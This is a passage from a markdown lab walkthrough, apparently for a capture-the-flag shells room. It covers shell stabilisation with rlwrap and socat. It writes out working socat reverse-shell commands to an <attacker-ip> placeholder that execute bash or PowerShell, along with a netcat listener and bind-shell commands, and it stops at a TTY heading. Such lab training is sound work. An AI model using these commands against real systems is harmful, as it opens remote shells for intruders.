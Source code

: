 
### 🧰 Other Techniques Covered

- **rlwrap**: Improves interaction using:
  ```bash
  rlwrap nc -lvnp 443
  ```

- **Socat**: Use it to spawn a full TTY shell by transferring the binary and executing:
  ```bash
  socat TCP:<attacker-ip>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
  ```

Each technique offers different benefits depending on the environment and OS. Practice all three to become comfortable stabilizing any basic reverse shell.



## 🔄 Task 6: Socat

Socat is a powerful tool for creating reverse and bind shells with enhanced stability. It can connect two data streams, such as a port and a terminal.

---

### 🔁 Reverse Shell Example

**Listener (attacker):**
```bash
socat TCP-L:<port> -
```

**Target (Linux):**
```bash
socat TCP:<attacker-ip>:<port> EXEC:"bash -li"
```

**Target (Windows):**
```bash
socat TCP:<attacker-ip>:<port> EXEC:powershell.exe,pipes
```

---

### 🔗 Bind Shell Example

**Target (Linux):**
```bash
socat TCP-L:<port> EXEC:"bash -li"
```

**Attacker:**
```bash
socat TCP:<target-ip>:<port> -
```

---

### 🧰 Fully Interactive TTY with Socat
